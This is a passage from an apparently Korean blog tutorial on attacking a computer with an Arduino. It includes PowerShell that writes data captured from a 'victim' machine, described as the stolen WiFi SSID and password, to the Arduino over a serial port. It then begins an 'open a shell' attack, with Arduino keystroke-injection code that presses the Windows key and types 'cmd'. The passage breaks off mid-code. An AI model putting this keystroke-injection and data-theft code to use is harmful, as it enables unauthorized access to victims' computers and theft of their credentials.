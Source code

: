 <div class="content-ad"></div>

아두이노에 데이터를 기록하려면 컴퓨터와 아두이노는 직렬 통신을 사용하여 상호 작용해야 합니다. 직렬 통신은 통신 채널 또는 USB를 통해 한 번에 한 비트씩 데이터를 전송하는 프로세스입니다. 각 포트는 COM1, COM2, COM3, COM4 등으로 식별됩니다. 각 COM은 입출력(I/O) 및 인터럽트 요청(IRQ) 주소를 나타냅니다. I/O 주소는 마우스나 키보드와 같은 주변 장치와 데이터를 전송하고 수신합니다. 직렬 통신의 속도 또는 '보드 속도'는 초당 비트로 측정됩니다. 이 데모에서는 9600비트 초당을 사용했습니다.

```bash
# 사용 가능한 COM 포트 검색
$comPort = ((Get-WmiObject -query "SELECT * FROM Win32_PnPEntity" | Where {$_.Name -Match "COM\d+"}).name).Split("COM");
$comPort = [int]$comPort[$comPort.length - 1].replace(")", "");

# COM 포트에 연결하여 데이터 기록 시작
$serialObject = new-Object System.IO.Ports.SerialPort COM$comPort , 9600, None, 8, one;
$serialObject.Open();
$serialObject.Write("$dataCaptured");
```

데이터를 전송한 후, 아두이노를 피해자의 컴퓨터에서 분리하여 내 컴퓨터에 연결합니다. 그런 다음, 캡처된 데이터를 제 노트패드로 전송하는 배송 프로세스를 시작하려면 오른쪽 버튼을 트리거합니다.

![이미지](/assets/img/2024-06-22-HackingacomputerusingArduino_5.png)

<div class="content-ad"></div>

# 공격 2: 쉘 열기

여기서 여러분은 아마 생각하고 있을거에요: 우리 피해자의 WiFi SSID와 비밀번호를 훔치는 것에 그치지 말고 더 많은 정보를 얻을 수는 없을까요? 이 섹션에서는 쉘을 열어보는 방법을 보여드릴게요.

```js
#include <Keyboard.h>
#include <EEPROM.h>

char stringArray[50] = {""};
boolean extracted = false, dispatched = false;
int extractButton = 2, dispatchButton = 3;
void setup() {
    Serial.begin(9600);
    pinMode(extractButton, INPUT);
    pinMode(dispatchButton, INPUT);
    Keyboard.begin();
}
void loop() {
    if(digitalRead(extractButton) == HIGH && !extracted) {
        shell();
        extracted = true;
    }
    if(digitalRead(dispatchButton) == HIGH && !dispatched) {
        ipaddr();
        dispatched = true;
    }
    if(digitalRead(extractButton) == LOW)
        extracted = false;
    if(digitalRead(dispatchButton) == LOW)
        dispatched = false;
}

void shell() {
    delay(1000);
    Keyboard.press(KEY_LEFT_GUI);
    delay(20);
    Keyboard.release(KEY_LEFT_GUI);
    delay(500);
    Keyboard.print("cmd");
    delay(500);
```